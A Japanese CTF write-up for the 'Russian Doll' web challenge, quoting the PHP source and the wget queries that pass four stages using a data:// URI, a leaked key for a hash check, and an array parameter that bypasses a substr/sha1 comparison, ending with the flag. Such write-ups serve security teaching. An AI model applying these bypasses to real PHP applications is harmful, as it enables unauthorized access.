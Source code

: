 # Russian Doll:Web:15pts
This doll is tricky, can you pass all the stages and get the flag?  
I think you can!  
In Scope: http://web02.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
[BANGERS!](../BANGERS!)と同じく、段階的にロックを突破するようだ。  
Web02 Challenge "Russian Doll"  
[site.png](site/site.png)  
最初は以下の部分に注目する。  
```php
// Stage 1
$text = $_GET['text'];
if(@file_get_contents($text)!=="Привет хакер"){
        die("You must speak my language a different way!");
}

echo "Stage 1 is complete! You unlocked the key: " . $secretkey . "\n";
```
`file_get_contents`を呼んでいるので、データURIスキーム`data://text/plain,Привет хакер`を渡してやればよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
хаха, это строго не сработает
```
次に以下の部分に注目する。  
```php
// Stage 2
$key1 = $_GET['key1'];
$keyId = 1337;

if (intval($key1) !== $keyId || $key1 === $keyId) {
    die("хаха, это строго не сработает");
}

echo "Stage 2 is complete! Keep Going!\n";
```
1337を入力したらよい。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Ваш токен мертв, как и эта попытка
```
次に以下の部分に注目する。  
旧Stage 3は作問ミスらしい(数時間溶けた)。  
```php
// Stage 3
$hash = $_GET['hash'];
$token = intval($_GET['token']);

if(substr(hash("sha256", $keyId + $token . $secretkey), 5, 25) == $hash) {
    $keyId = $_GET['keyId'];
} else {
    die("Ваш токен мертв, как и эта попытка");
}

echo "Stage 3 is complete! You defeated death, for now...\n";
```
入力に`$secretkey`を付けたsha256ハッシュ値の、一部を当てればよい。  
`$secretkey`はStage 1で`IThinkICanIThinkICanIThinkICan`、`$keyId`はStage 2で`1337`と分かっている。  
以下のようにクエリを設定した。  
```bash
$ php -a
php > echo substr(hash("sha256", "1337" + "0" . "IThinkICanIThinkICanIThinkICan"), 5, 25);
bb6bcf1419dcdde482ff13f0f
php > quit
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337&token=0&hash=bb6bcf1419dcdde482ff13f0f"
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Stage 3 is complete! You defeated death, for now...
ты не можешь сдаться сейчас!
```
最後に以下の部分に注目する。  
```php
// Final Stage
$key2 = 69;
if(substr($keyId, $key2) !== sha1($keyId)){
    die("ты не можешь сдаться сейчас!");
}

// Final Stage
echo "Final stage is complete Where da flag homie? 💩\n";
~~~
header("Content-Type: " . $flag);
```
配列を渡すと`substr`、`sha1`共に空文字列が返ってくるため比較部分をバイパスできる。  
Content-Typeに隠されているようなので表示するオプションをつける。  
以下のようにクエリを設定した。  
```bash
$ wget -q -O - "http://web02.ctf313.com/?text=data://text/plain,Привет хакер&key1=1337&token=0&hash=bb6bcf1419dcdde482ff13f0f&keyId[]=a" --server-response
  HTTP/1.1 200 OK
  Date: Fri, 04 Dec 2020 16:08:04 GMT
  Server: Apache/2.4.41 (Ubuntu)
  Content-Length: 209
  Keep-Alive: timeout=5, max=100
  Connection: Keep-Alive
  Content-Type: flag{17H1nk1c4N17h1nK1c4N}
Stage 1 is complete! You unlocked the key: IThinkICanIThinkICanIThinkICan
Stage 2 is complete! Keep Going!
Stage 3 is complete! You defeated death, for now...
Final stage is complete Where da flag homie? 💩
```
flagが得られた。  

## flag{17H1nk1c4N17h1nK1c4N}